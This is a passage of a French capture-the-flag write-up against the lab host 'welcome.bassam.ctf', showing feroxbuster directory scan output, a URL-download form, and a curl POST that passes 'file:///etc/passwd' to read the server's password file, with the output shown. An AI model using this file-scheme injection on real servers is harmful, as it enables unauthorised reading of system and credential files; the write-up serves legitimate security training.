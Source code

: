 ```console
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        3l        6w       38c http://welcome.bassam.ctf/index.html
200        0l        0w        0c http://welcome.bassam.ctf/config.php
200       12l       17w      229c http://welcome.bassam.ctf/index.php
403        9l       28w      283c http://welcome.bassam.ctf/.htaccess
200        3l        6w       38c http://welcome.bassam.ctf/
403        9l       28w      283c http://welcome.bassam.ctf/.html
403        9l       28w      283c http://welcome.bassam.ctf/.php
403        9l       28w      283c http://welcome.bassam.ctf/.htpasswd
403        9l       28w      283c http://welcome.bassam.ctf/.htm
403        9l       28w      283c http://welcome.bassam.ctf/.htpasswds
403        9l       28w      283c http://welcome.bassam.ctf/.htgroup
403        9l       28w      283c http://welcome.bassam.ctf/wp-forum.phps
403        9l       28w      283c http://welcome.bassam.ctf/.htaccess.bak
403        9l       28w      283c http://welcome.bassam.ctf/.htuser
403        9l       28w      283c http://welcome.bassam.ctf/.htc
403        9l       28w      283c http://welcome.bassam.ctf/.ht
403        9l       28w      283c http://welcome.bassam.ctf/.htaccess.old
403        9l       28w      283c http://welcome.bassam.ctf/.htacess
[####################] - 6s     37034/37034   0s      found:18      errors:0      
[####################] - 5s     37034/37034   6565/s  http://welcome.bassam.ctf/
```

### scheme://

Le code HTML retourne un formulaire ainsi qu'une référence à un répo Github. Ce dernier n'existe pas (ou plus) :

```console
$ curl -s http://welcome.bassam.ctf/index.php 

<html>
<body>

<form action="" method="post">
url <input type=text name=url placeholder="image_url...">
<input type=submit value="download">
<!--https://github.com/kira2040k/MYCTF/blob/main/index.php-->
</form>

</body>
</html>
```

J'ai testé le chargement de fichiers locaux avec le scheme `file://` et ça a marché :

```console
$ curl -s http://welcome.bassam.ctf/index.php -X POST --data "url=file:///etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```